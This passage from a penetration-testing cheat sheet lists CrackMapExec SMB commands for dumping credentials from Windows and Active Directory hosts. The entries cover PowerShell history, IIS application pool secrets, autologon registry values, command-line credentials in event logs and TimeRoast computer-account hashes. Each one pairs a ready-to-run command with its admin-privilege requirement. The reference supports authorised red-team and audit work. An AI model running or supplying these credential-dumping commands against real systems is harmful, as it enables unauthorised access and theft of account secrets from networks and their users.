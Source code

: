 Extract PowerShell history for all users and looks for sensitive commands.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <dc-ip> -u <user> -p <password> -M powershell_history
```

## Dump IIS
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump credentials in IIS Application Pool configuration files using appcmd.exe.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <dc-ip> -u <user> -p <password> -M iis
```

## Dump Autologon
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump autologon credentials stored in the registry.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <dc-ip> -u <user> -p <password> -M reg-winlogon
```

## Dump CLPA logs
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump clear-text credentials passed in command lines which are logged in Windows Event ID 4688.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <dc-ip> -u <user> -p <password> -M eventlog_creds
```

## Dump NTP computer hashes (TimeRoast)
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump password hashes of any computer or trust account using Windows NTP authentication.

```bash
cme smb <ip> -u <user> -p <password> -M timeroast
```

## Dump WIFI password
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin
